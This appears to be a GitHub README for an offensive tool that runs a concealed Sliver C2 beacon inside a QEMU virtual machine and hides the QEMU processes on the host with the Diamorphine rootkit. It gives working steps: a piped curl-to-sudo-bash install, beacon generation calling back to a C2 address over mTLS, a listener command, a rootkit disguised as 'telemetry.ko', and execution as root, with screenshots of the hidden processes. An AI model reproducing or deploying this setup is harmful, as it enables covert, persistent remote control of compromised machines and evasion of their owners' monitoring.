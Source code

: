 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;


VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)


---

Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver


---

TODO:
- Use QEMU static binary https://github.com/ziglang/qemu-static instead of downloading it via apt;
- Use **macvtap** / l2tpv3 / af_xdp for networking.

NOTES

```bash
ip link add link enp0s3 name spf0 type macvtap mode bridge
ip link set spf0 up
./sq -kernel /boot/vmlinuz-$(uname -r) -initrd ./initramfs.linux_amd64.cpio -net nic,model=virtio,macaddr=$(cat /sys/class/net/spf0/address) -net tap,fd=3 3<>/dev/tap$(cat /sys/class/net/spf0/ifindex) -nographic -append "console=ttyS0"
```
